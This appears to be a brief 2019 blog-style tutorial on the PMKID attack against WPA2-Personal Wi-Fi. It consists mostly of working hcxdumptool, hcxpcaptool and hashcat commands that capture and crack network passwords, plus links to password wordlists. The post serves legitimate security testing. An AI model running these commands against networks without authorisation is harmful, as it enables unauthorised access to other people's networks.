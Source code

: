 ```yaml
---
title: Testing Wireless AP Security
date: 2019-01-22 08:56:08
tags: Wifi, Networking, Security
category: Networking
---
```


### Testing Wireless AP security

A new flaw in WPA2-Personal has been found which doesn't require capturing the 4-way handshake as in KRACK. Wifi adapter will need to be capable on monitor mode. 

WPA2-EAP is not affected.  


```bash
## Capture the packet
sudo hcxdumptool -o test.pcapng -i <interface logical name> --enable_status=1
```
```bash
# Kill network manager if warning shows
# warning: NetworkManager is running with pid 828
# warning: wpa_supplicant is running with pid 890
# >>> sudo kill 828 890
# To restart: sudo systemctl start NetworkManager

# Convert into suitable hashcat format
./hcxpcaptool -z test.16800 test.pcapng
```
```bash
# Dictionary attack with hashcat
hashcat -m 16800 -a 0 -w 2 -o outfile test.16800 rockyou.txt

# Bruteforce with hashcat
hashcat -m 16800 -a 3 -o oufile -session=brute test.16800 <guess mask>
```

### Password lists

Crack station: https://crackstation.net/files/crackstation-human-only.txt.gz

Seclists: https://github.com/danielmiessler/SecLists/tree/master/Passwords

Rockyou: http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2
